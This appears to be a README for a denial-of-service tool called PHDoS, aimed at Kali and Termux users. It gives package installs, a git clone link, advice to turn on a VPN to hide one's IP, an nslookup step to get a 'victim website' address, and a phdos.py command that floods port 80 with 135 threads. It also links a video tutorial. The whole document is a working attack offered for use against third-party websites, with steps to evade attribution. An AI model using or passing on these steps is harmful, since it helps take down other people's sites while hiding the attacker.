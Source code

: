 Kali & Termux Compatible<br>
Requirements:<br>
$ apt update<br>
$ apt upgrade<br>
$ apt install python<br>
$ apt install python2<br>
$ apt install python3<br>
$ apt install git<br>
$ apt install dnsutils<br>
$ git clone https://github.com/5inco/PHDoS

First you need to activate a vpn to change your ip

You need the <b>IP Address</b> of a website which you want to attack...<br>
New Terminal just type:<br>
$ <b>nslookup victimwebsite.com<b><br>
Get the IP Address of a victim website<br>

Installation & Usage:<br>
$ cd PHDoS/<br>
$ ls<br>
$ python3 phdos.py -s [Victim ip Address] -p 80 -t 135<br>
example:<br>
$ python3 phdos.py -s xx.xxx.xxx.xxx -p 80 -t 135<br>

Youtube Video Tutorial: https://youtu.be/jA4Ecnm6WEk


